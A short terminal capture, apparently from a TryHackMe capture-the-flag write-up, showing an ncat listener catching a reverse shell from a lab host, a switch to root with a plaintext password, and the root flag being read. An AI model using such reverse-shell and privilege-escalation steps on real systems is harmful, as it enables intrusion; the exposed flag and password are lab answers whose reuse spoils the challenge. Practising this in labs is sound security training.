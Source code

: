 ```
$ ncat -lvp 4242
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 10.10.37.52.
Ncat: Connection from 10.10.37.52:35836.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
daemon@18c7613b3859:/bin$ cd /root
cd /root
bash: cd: /root: Permission denied
daemon@18c7613b3859:/bin$ su root
su root
Password: ApacheCVE

cd /root

ls
root.txt
cat root.txt
THM{P21V_35C_F20M_4P4CH3_15_FUN}

```